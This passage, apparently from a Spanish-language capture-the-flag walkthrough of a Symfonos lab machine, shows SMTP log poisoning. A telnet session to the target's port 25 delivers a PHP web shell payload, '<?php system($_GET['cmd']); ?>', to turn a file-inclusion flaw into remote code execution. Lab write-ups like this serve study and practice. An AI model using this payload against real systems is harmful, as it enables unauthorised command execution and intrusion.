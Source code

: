 <img src="/assets/VH/Symfonos1-Symfonos2/varmailhelios.png">

Como tenemos acceso a los logs del servicio smtp y sabemos que el LFI apunta a un recurso en PHP vamos a tratar de ejecutar un `Log Poisoning` inyectando un código en PHP para que lo interprete y así lograr un `RCE`. Para realizar esta acción nos conectaremos a la máquina víctima por telnet a tarvés del puerto 25

```ruby
❯ telnet 192.168.1.150 25
Trying 192.168.1.150...
Connected to 192.168.1.150.
Escape character is '^]'.
220 symfonos.localdomain ESMTP Postfix (Debian/GNU)
MAIL FROM: yorch 
250 2.1.0 Ok
RCPT TO: helios
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
<?php system($_GET['cmd']); ?>
.
250 2.0.0 Ok: queued as 593FE40BA2
QUIT
221 2.0.0 Bye
```